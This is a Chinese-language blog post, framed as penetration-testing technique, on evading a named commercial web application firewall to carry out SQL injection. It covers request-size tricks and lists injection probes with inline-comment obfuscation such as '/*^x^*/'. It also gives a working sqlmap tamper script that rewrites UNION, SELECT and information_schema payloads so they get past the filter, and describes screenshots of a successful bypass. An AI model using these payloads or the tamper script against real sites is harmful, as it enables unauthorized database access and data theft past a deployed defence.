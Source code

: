 ```yaml
---
title: 渗透测试中的Bypass技巧（三）自动化注入
layout: post
date: '2017-03-10'
categories: web安全
permalink: "/archivers/2017-03-10/1"
description: 某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
---
```


某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
<!--more-->

* 目录
{:toc}

## 0x00 匹配资源大小限制

某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。

Get方法提交的数据大小长度并没有限制，HTTP协议规范没有对URL长度进行限制。这个限制是特定的浏览器及服务器对它的限制。可见WAF可能在处理GET请求的时候，根据客户端（浏览器）规定的长度去匹配了，这就造成了一个缺陷。我们可以把有效数据放在这个限制的零界点，攻击语句放在零界点后方，让WAF以为这是一个正常请求，就随之放行，达到了攻击效果。

理论上讲，POST是没有大小限制的。HTTP协议规范也没有进行大小限制，起限制作用的是服务器的处理程序的处理能力。

例如在使用PHP进行POST提交时，文件大小受PHP配置文件PHP.INI限制，我们可以修改PHP.INI文件中的post_max_size参数，可将默认的2M字节，修改自己需要的大小，但由于HTTP协议的特性，这个值不宜设置过大，最大以8M为宜。假设如果服务器端设置了8M，而WAF默认只匹配2M，由此可见服务器端接受数据的大小>WAF匹配的数据最大大小。那么，我们可以根据上述方法，也可绕过WAF的拦截。


## 0x01 绕过某WAF上传

渗透测试中的Bypass技巧（二） - 知乎专栏

在上一章中我们已经举例了一个bypass上传，最重要的彩蛋就在Bypass注入啦~

## 0x02 绕过某WAF注入

我们构造一个SQL注入页面，慢慢去研究它的拦截规则：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-309291e5dd2a98bf8796bf049e7cb731_r.jpg)

先从普通的语句开始做定位：

* and 1=1

* and ‘s’=’s’

* union select 1,2,3

* `union/**/select/**/user(),2,3`

* ......

* 等价替换
* And ‘s’ like ‘s’

此时我们已经可以使用like用于盲注（此时可以将所有的 = 替换成 Like ）

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-d05618b362ce592aa4cb8b8381620b7a_r.jpg)

### 注释

我们可以设想出拦截的特征正则

union与select同时出现会被拦截，union\[空格,%20,/\*部分字符\*/\]select都会被拦截，目前普通的union select都会被拦截，既然空格,%20都会被匹配到，我们只能通过/\*\*/内联来注释了（目前发现N多姿势，在这里只共享思路+一个bypass的tamper脚本）

* `/**/`

* `/*数字+字母*/`

* `/*特殊符号+数字+字母*/`

* .....more


假设union左右如果有select就拦截的话，那么定位union与select之间的敏感字符就好，假设union`[空格]`select，此时如果把空格替换成任意内联，就可bypass这个规则，此时规则也不可能是一条的。条件也是很多的。我们也只能讲内联这个规则做手脚了。

于是乎我发现`/*^xxx^xxx*/`字母加特殊字符即可bypass。

因为每个特征中都没有匹配到^与小写字母、大写字母、数字的组合，这些条件可以继续测试，笔者已经把此文写到最佳精简，测试期间也翻看过拦截日志，定位拦截特征。

（Union注入）例如在读取：mysql密码、表名的时候，我们还会查询information_schema数据库，这个可以转换大小写，或者在information_schema.TABLES直接再添加一个注释。下面就是测试过程：首先测试简单的and 1=1


![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-8496c213549317823092929a2764f72a_r.jpg)


然后我们使用注释bypass:

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-79b4d5253c14457c4e4493b438b4231e_r.jpg)

此时已经bypass成功了，我在这里用的是某dog 4.0（3.5也可以）

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-f54a5d6fe18955781f3d14a8802d3d7b_hd.jpg)

## 0x03 自动化bypass注入

我们通过编写sqlmap的tamper用于bypass，主要是需要定位各种拦截点，使用sqlmap替换Payload。

首先在sqlmap的tamper文件夹里创建一个safedog.py，编写我们的tamper脚本

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-78c541db6e25a98c01a0d3556fd5d321_r.jpg)

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload):
    if payload:
		bypass_SafeDog_str = "/*x^x*/"
		payload=payload.replace("UNION",bypass_SafeDog_str+"UNION"+bypass_SafeDog_str)
		payload=payload.replace("SELECT",bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str)
		payload=payload.replace("AND",bypass_SafeDog_str+"AND"+bypass_SafeDog_str)
		payload=payload.replace("=",bypass_SafeDog_str+"="+bypass_SafeDog_str)
		payload=payload.replace(" ",bypass_SafeDog_str)
		payload=payload.replace("information_schema.","%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/")
		payload=payload.replace("FROM",bypass_SafeDog_str+"FROM"+bypass_SafeDog_str)
		#print "[+]THE PAYLOAD RUNNING...Bypass safe dog 4.0 apache version ."
		print payload
    return payload
```

我们测试一下先不载入tamper脚本：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-66446e8f8f6a49347e8a181bfbf79b73_hd.jpg)

到了这基本没戏了，我们看看拦截日志

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-38178932222e08df8395ac117fa8ec6d_r.jpg)

现在载入tamper脚本：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-070979a6ee68c8f3c0fc0ce384fd12a9_r.jpg)

可以看到已经载入，并且识别了waf指纹。



以下是跑脚本的过程

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-3cbe15d14ddef776ddca44a353768be6_r.jpg)

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-40d2293817e8e2a87d4281d71fe5f9d2_hd.jpg)

支持布尔值注入

支持union注入

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-091cfa9e51da47e78bf301db3c35f95b_hd.jpg)